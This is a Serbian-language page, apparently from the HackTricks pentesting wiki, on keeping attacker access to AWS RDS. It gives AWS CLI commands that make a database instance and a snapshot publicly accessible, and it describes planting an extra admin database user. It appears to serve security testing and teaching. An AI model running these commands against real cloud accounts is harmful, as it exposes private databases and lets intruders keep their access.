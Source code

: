 # AWS - RDS Perzistencija

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Za više informacija pogledajte:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Omogućavanje javnog pristupa instanci: `rds:ModifyDBInstance`

Napadač sa ovom dozvolom može **izmeniti postojeću RDS instancu kako bi omogućio javni pristup**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Kreirajte admin korisnika unutar DB

Napadač može jednostavno **kreirati korisnika unutar DB**, tako da, čak i ako je lozinka master naloga promenjena, on **ne izgubi pristup** bazi podataka.

### Učinite snapshot javnim
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
